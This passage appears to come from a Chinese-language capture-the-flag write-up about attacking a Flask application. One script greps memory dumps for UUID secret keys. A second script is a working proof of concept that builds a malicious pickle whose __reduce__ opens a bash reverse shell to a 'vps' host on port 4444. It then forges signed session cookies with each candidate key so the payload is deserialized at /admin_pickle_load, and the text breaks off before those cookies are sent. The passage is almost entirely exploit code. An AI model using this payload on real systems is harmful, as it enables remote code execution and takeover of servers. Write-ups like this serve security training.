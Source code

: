 对内存数据进行UUID正则匹配,获取全部UUID存放到`./keys`文件中:

grep.py

```python
import os
import re

os.system("rm keys")
dir=str(os.listdir('./save'))
dir=dir[1:-2:].replace("'","").replace(" ","").split(",")
print("Dir::=>",)
for i in dir:
    print(i)

print("Start"+"-"*100)

for f in dir:
    if f=="":
        continue
    print("Now is File::=>",f,"-"*50)
    lines=open("./save/"+f,"rb").readlines()
    for line in lines:

        t=re.findall(
            rb"[0-9abcdef]{8}-[0-9abcdef]{4}-[0-9abcdef]{4}-[0-9abcdef]{4}-[0-9-abcdef]{12}",
            line
        )
        for i in t:
            print(i.decode())
            file = open("keys", "ab")
            if i not in open("keys","rb").read():
                file.write(i+b"\n")
            else:
                print(i.decode()+" Is Haven")
            file.close()

```

通过`./keys`逐个取出key然后结合工具[flask\_session\_cookie\_manager](https://github.com/noraj/flask-session-cookie-manager.git)生成伪造的session(里面有要反序列化的data数据)后全部存到sessions数组中,再逐个带着生成的session访问`/admin_pickle_load`进行反序列化(注意提前打开监听)

poc.py

```python
import base64
import os
import pickle
import requests

class test(object):
    def __reduce__(self):
        return (__import__('os').system, ("""
bash -c 'exec bash -i &>/dev/tcp/vps/4444 <&1'
        """,))

data=base64.b64encode(pickle.dumps(test())).decode()
os.system("rm sessions")
for key in open("keys","r").readlines():
    key=key.replace("\n","")
    cmd = """python3 flask_session_cookie_manager3.py encode -s '%s' -t '{"data":"%s"}' >> sessions"""%(key,data)
    print("key::=>",key)
    os.system(cmd)
sessions=open("./sessions","r").readlines()
```